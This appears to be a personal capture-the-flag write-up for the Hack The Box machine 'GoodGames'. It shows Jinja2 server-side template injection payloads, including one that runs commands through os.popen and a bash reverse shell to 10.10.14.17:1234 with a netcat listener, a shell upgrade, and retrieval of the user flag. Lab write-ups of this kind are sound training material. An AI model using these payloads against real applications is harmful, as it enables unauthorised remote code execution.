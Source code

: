 There is a new icon
http://internal-administration.goodgames.htb/

#### subdomain
add `internal-administration.goodgames.htb` to /etc/hosts

#### flask login
![[Pasted image 20230222145605.png]]

#### Volt login

![[Pasted image 20230222150042.png]]

Themesverg - Coded by AppSeed

## SSTI

![[Pasted image 20230222150458.png]]

### SSTI checklist
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
`${7*7}` did not work but `{{7*7}}` worked
![[Pasted image 20230222152701.png]]

`{{7*'7'}}` works as well
![[Pasted image 20230222153235.png]]


`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
![[Pasted image 20230222153748.png]]

## Reverse shell

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.17/1234 0>&1"').read() }}`

and wait on kali machine
```
nc -lvpn 1234
```

### Upgrade shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
## User flag as augustus

```
root@3a453ab39d3d:/home/augustus# cat user.txt
cat user.txt
```
